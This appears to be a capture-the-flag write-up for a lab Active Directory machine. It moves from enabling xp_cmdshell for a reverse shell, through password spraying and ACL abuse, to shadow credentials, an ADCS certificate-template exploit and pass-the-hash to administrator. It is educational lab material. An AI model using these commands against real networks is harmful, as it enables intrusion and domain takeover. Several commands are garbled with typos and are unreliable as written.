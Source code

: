 Started with a nmap scan
```
53 DNS
80 Kerberis
135 RPC
139 netbios-ssn
389 LDAP
445 ds?
464 kpasswd5
593 RPC over HTTP
636 LDAP
1433 SQL
3268 LDAP
5985 HTTP API
```
There is a lot of ports open and the room gives us a pair of login creds to use `rose:KxEPkKe6R8su` first what Im going to check is all the users on the host machine with a ridbrute and we have a good amount of users 
```
michael
ryan
oscar
sql_svc
rose
ca_svc
```
These are some users that stand out and since we can log into the SMB server lets see what shares we can access
```
ACCOUNTING Department
IPC$
NETLOGON
SYSVOL
Users
```
Lets check out the accounting share first and there is 2 files in this share
```
accounting_2024.x;sx
accounts.xlsx
```
Using LibreOffice Calc to open the `accounts.xlsx ` file or unzip it to see the contents and there is a account with a password we can use to get access to the MSSQL server `oscar:86LxLBMgEWaKUnBG` and `sa:MSSQLP@ssw0rd!` used this command to connect 
`impacket-mssqlclient sequel.htb/sa@10.10.11.51` and with the SA account we can enable `xp_cmdshell` with these commands 
```
EXEC sp_configure 'xp_cmdshell', 1;
RECONFIGURE;
to Verify
EXEC sp_configure 'xp_cmdshell';
```
and now we can get a reverse shell with this command
```
./mssql-command-tools_Linux_amd64 --host 10.10.11.51 -u "sa" -p "MSSQKO@ssw0rd!" -c "powershell -e base64here" 
```
and we get a shell back as user `sql_svc` and if we go to `C:\SQL2019\ExpressAdv_ENU` and run `cat sql-Configuration.INI` and if has the creds for the `sql_svc` user `WqSZAF6CysDQbGb3` and with this new password I used netexec with spray `win-rm ` with the userlist and the new password and it worked for the user `ryan` and if we go to the Desktop we got the user flag now we can run `bloodhound-python ` and we can also run `bloody-ad` to set the user 
```
sudo bloody-ad --host '10.10.11.51' -d 'sequel.htb' -u 'ryan' -p 'password' set owner 'ca_svc' 'ryan'
```
and now we set the user Ryan now we need to change the rights to the user 
```
impacket-dacledit -action 'write' -rights 'FullControl' -principal 'ryan' -target 'ca_svc' 'sequel.htb'/"ryan":"passowrd"
```
now we use `certipy-ad` to get the ticket 
```
certipy-ad shadow auto -u 'ryan@sequel.htb' -p 'password' -account 'ca_svc' -dc-ip '10.10.11.51'
```
now we need to make sure are time match's the time on the box now we need to drop `Certify.exe` onto the machine and run this command
`./Certify.exe find /domain:sequel.htb` and we can identify a vulnerable template name `DunderMifflinAuthentication` now we can exploit this to update the certificate 
```
KRBCCNAE=$PWN/ca_svc,ccache certipy-ad template -k -template DunderMifflinAuthentication -dc-ip 10.10.11.51 -target dc01.sequel.htb
```
now that's its updated we can get the pfx certificate 
```
ceripty-ad req -u ca_svc -hashes 'the hash' -ca sequel-DC01-CA -target sequel.htb -dc-ip 10.10.11.51 -template DunderMifflinAuthentication -upn administrator@sequel.htb -ns 10.10.xx.xx -dns 10.10.xx.xx 
```
now we have the private key and certificate and we can auth and get the hash 
```
certipy-ad auth -pfx administrator_10.pfx -domain sequel.htb
```
and we can use this hash to `win-rm` into the host 
```
evil-winrm -i 10.10.xx.xx -U 'adnubustrator' -H '7a8d4e04986afa8ed4060f75e5a0b3ff'
```
and we have the root flag now 